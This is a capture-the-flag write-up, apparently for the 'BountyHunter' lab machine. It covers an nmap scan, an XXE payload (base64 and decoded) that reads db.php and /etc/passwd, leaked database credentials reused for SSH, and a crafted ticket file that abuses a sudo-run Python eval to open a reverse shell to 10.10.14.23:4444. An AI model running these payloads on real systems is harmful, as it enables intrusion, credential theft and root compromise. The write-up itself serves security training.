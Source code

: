 # nmap scan

```shell
Nmap scan report for bounty.htb (10.129.95.166)
Host is up (0.075s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

> found XXE vulnerability on http://bounty.htb/log_submit.php the payload was base64 encoded

# XXE payload

> used this payload which translates to [code below]

```base64 
PD94bWwgIHZlcnNpb249IjEuMCIgZW5jb2Rpbmc9IklTTy04ODU5LTEiPz4KPCFET0NUWVBFIGZvbyBbPCFFTlRJVFkgZXhhbXBsZSBTWVNURU0gInBocDovL2ZpbHRlci9jb252ZXJ0LmJhc2U2NC1lbmNvZGUvcmVzb3VyY2U9L3Zhci93d3cvaHRtbC9kYi5waHAiPiBdPgkJPGJ1Z3JlcG9ydD4KCQk8dGl0bGU%2bJmV4YW1wbGU7PC90aXRsZT4KCQk8Y3dlPnRxd2U8L2N3ZT4KCQk8Y3Zzcz5xd2U8L2N2c3M%2bCgkJPHJld2FyZD5ycTwvcmV3YXJkPgoJCTwvYnVncmVwb3J0Pg%3d%3d
```

```xml
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>		
<bugreport>
		<title>&example;</title>
		<cwe>tqwe</cwe>
		<cvss>qwe</cvss>
		<reward>rq</reward>
</bugreport>

```

it returns a php file with admin credentials
```php
<?php
// TODO -> Implement login system with the database.
$dbserver = "localhost";
$dbname = "bounty";
$dbusername = "admin";
$dbpassword = "m19RoAU0hP41A1sTsq6K";
$testuser = "test";
?>
```

```shell
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
==development==:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin

```

> in addition to the php files, /etc/passwd can also be displayed using the payload
> I used the credentials on the **development** user to gain shell access 

```shell
ssh development@bounty.htb
```

> gained access to the shell, the user has a sudo privilege to run a python script on which executes user input using the *eval* method
> 
```shell
User development may run the following commands on bountyhunter: (root) NOPASSWD: /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
```

> the python script extracts text from a markdown file, markdown file strictly follows a format, nonetheless it exit the execution

> I used this ticket file on the python script 

## ticket.md
```python 
# Skytrain Inc
## Ticket to testa
__Ticket Code:__
**11 __import__('os').system('bash -c "bash -i >& /dev/tcp/10.10.14.23/4444 0>&1"')

```


> then I execute the script 

```shell
sudo python3.8 /opt/skytrain_inc/ticketValidator.py
```

